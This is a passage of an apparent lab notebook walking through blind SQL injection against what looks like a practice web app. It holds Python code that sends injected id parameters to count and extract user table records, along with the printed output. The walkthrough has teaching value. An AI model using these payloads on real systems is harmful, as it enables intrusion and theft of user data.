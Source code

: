 

```python
list_columns_found = list(set(columns_found))
print("List of columns found : ")
print(list_columns_found)
```

    List of columns found : 
    ['user', 'user_id', 'password', 'last_login', 'first_name', 'last_name', 'avatar']


### 5. Records in the users table


```python
line_count = 0
for i in range(0, 100): 
    id_param = "' OR "+str(i)+ " IN (SELECT COUNT(*) FROM users)  -- -"
    params = {
        'id': id_param,
        'Submit': 'Submit',
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        line_count = i
        break
print("Number of records in users table = ", line_count)
```

    Number of records in users table =  5


#### 5.1 Let's extract the first_name from the users table


```python
wordlist_first_name = "wordlist/username.txt"
sql_start = "' OR '"
sql_end = "' IN (SELECT first_name FROM users) -- -"

list_of_first_name = send_request_with_wordlist(wordlist_first_name, sql_start, sql_end)
print(list_of_first_name)
```

    [FOUND] =  admin
    [FOUND] =  Pablo
    [FOUND] =  Gordon
    [FOUND] =  hack
    [FOUND] =  bob
    ['admin', 'Pablo', 'Gordon', 'hack', 'bob']


#### 5.2 last_name of the users table


```python
wordlist_last_name = "wordlist/username.txt"
sql_start = "' OR '"
sql_end = "' IN (SELECT last_name FROM users) -- -"

list_of_last_name = send_request_with_wordlist(wordlist_last_name, sql_start, sql_end)
print(list_of_last_name)
```
